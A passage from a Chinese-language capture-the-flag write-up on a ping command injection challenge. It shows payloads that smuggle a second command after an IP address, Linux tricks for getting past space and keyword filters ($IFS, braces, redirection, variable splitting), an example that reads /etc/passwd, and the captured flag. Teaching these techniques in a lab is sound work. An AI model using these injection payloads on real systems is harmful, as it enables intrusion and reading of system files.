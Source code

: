 然后，既然flag.php在同级目录下，直接 cat 拿到就好了<br>
如果它没有过滤的话我们应该这样填入

```
127.0.0.1;cat flag.php 
```

但经过我们的输入发现，这题它把 空格和 'flag' 给过滤了，所以，我们得想办法把 空格和 'flag' 给绕过

我们先来 绕过下空格，在这之前我们来了解下

**0x03：linux 常见空格绕过方法**
使用<或者<>来绕过空格

```
cat<flag.txt 
```

花括号 扩展{OS_COMMAND,ARGUMENT}

```
{cat,/etc/passwd} 
```

$IFS绕过

```
cat$IFSflag.txt 
```

变量控制

```
x=$'cat\x09./a.txt'&&$x 
```

经过 我们测试 这题我们可以通过 $IFS 绕过 空格

然后我们来 绕过  'flag'过滤

这里我们 选择构造变量然后使用变量去绕过：于是最后我们构造 payload为：

```
127.0.0.1;a=f;d=ag;c=l;cat$IFS$a$c$d.php 
```

然后BurpSuite抓包便成功拿到flag.php中得内容

```
flag：GXY(1_sh0uld_ban_Icmp_4tFirst) 
```
